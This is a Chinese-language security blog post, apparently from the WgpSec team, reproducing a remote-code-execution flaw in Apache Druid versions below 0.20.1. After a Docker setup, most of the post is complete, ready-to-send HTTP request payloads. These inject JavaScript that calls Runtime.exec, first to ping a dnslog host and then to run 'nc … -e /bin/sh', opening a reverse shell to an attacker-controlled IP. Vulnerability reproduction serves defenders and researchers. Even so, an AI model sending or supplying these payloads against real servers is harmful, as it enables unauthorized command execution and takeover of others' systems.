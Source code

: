 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZdALmyPTAoRNjKuP3yDoLA)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：1713

阅读时长：10min

附件 / 链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于 WgpSec 原创奖励计划，未经许可禁止转载

  

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzAcVbfx1nicnhANA8uic6aE3qot85t6kDZTicxSpc6OvlKNRApqdowT92Cue5tRx4gQic8PJCl8YGyHiaQ/640?wx_fmt=gif)

  

**_前言_**

  

一、

**_漏洞描述_**

Apache Druid 是用 Java 编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用 Druid 服务器上进程的特权执行任意代码。Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码

二、

**_漏洞影响_**

Apache Druid < 0.20.1

**三、**

**_漏洞复现_**

这里使用 Docker 来搭建环境

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo7kyxCqkjjPu4AxMSEYACDbB6CiatowulzibFLGAaRB7J4bibUrbvDPNhhA/640?wx_fmt=png)

Docker 下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo77tHZnX7m5LEibfuXUjzzuYmeNic0EDibcKhNGp1ITk3iauojJGqZ6UjXhg/640?wx_fmt=png)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo7m7puUxkbibEsfoCLeluL4ZsRQI0WgXt3qeH1PP6yIkteSAEZL847GSQ/640?wx_fmt=png)

漏洞原理: [https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw](https://mp.weixin.qq.com/s?__biz=MzI5MzY2MzM0Mw==&mid=2247485775&idx=1&sn=ec7d02dcbda4e120e3a4fccab5ce0d4e&scene=21#wechat_redirect)

POC 请求包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo7icY3fFkAyha8iatnm8FIicE04OeOK9TVrZs2kZc6agOIRkDyKpXrVpMxw/640?wx_fmt=png)

```
注意请求中这个位置改为你的dnslog平台地址
java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')
```

发送请求即可命令执行

  

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo7RjP7mryicpqfUg0yxyJ7KpdziaXBXZ8KGf4LzsCafudia5yjeHkNe1sgA/640?wx_fmt=png)

看了下可能大部分都是 docker 搭建，而里面大部分命令是不存在的，但是发现 docker 里面居然默认是有 NC 命令的，那我们就可以用 nc 反弹一个 shell 了

反弹 shell 请求包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Content-Type: application/json
Content-Length: 1008
Connection: close

{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式 shell 了

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCRdEUkWjnADMBeY9cRyYo7yeC576icHmqjWrSY7giaTrcwjJwgvxPfe5RyiblUp3pQQsfmIgJSCMBDg/640?wx_fmt=png)

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)